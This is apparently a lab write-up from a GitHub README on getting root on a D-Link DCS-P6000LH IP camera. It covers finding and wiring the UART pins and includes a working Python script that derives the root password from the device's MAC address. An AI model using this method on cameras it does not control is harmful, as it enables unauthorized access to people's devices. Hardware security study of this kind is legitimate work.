



# Exploiting IP Camera
## Step - Finding and Connecting to the UART port
Since we are exploiting this camera through its UART port, the first step is to actually find it. One way of doing it is to search up schemes and any information
about the location of the port for the specific product, or to search for groups of 3 or 4 pins since these are good candidates for UART ports. UART have the following 
pins:
- Transmit(Tx)
- Recieve(Rx)
- Ground(GND)
- Power(Vcc)
One can use a multimeter to find which pin is which.

For our camera, the right most pin is the ground, the next adjacent pin is the transmit pin and the left pin is the recieve pin. Thus in our case black wire is ground,
green is transmit and white recieve.

Image provided for follow along purposes since we connected our camera to a breadboard and the breadboard to the Attify badge.

As you can see written in the badge, pin D0 is for transmit, D1 is for recieve, and pin GND is for ground. Once the pins are connected to the badge, you connect the 
badge to your ocmputer using the proveded micro USB to USB connector provided. 

##TBD 


## Step - Finding the Root Password for the IP Camera  
Once we had access to the device, and we accessed the camera's terminal via the minicom tool provided for us, we needed to enter the root password. In order 
to do this, we had to use the following Python script:  
```
# dcsp6000lh-rootpw.py
# Calculates the root password for Dlink DCS-P6000LH IP cam
 
import hashlib
 
# MAC address of the IP cam (in upper case)
mac = "B0:C5:54:40:0D:13"

# Default empty string
factorypwd = ""
 
buf = f"{factorypwd}+{mac}\n"
 
hsh = hashlib.md5(buf.encode('ascii')).hexdigest()
 
rootpw = f"{hsh[0]}{hsh[1]}{hsh[2]}{hsh[27]}{hsh[28]}{hsh[29]}{hsh[30]}{hsh[31]}"
print(f"root:{rootpw}")
```  
For this script to run, we needed to have the MAC address of the IP camera, which was recovered from the camera's packaging. The next few lines of code
manipulate the string generated from the ```md5``` and ```encoding``` functions to gather the necessary data for the root password. Finally, after all the
processes were done, the script prints the IP camera's root password. Once we had the password, which in our case was ```555718df```, we had to enter it 
into the password prompt of the camera's terminal. This enabled us to complete the final step of the lab and establish a root shell on the device via UART.

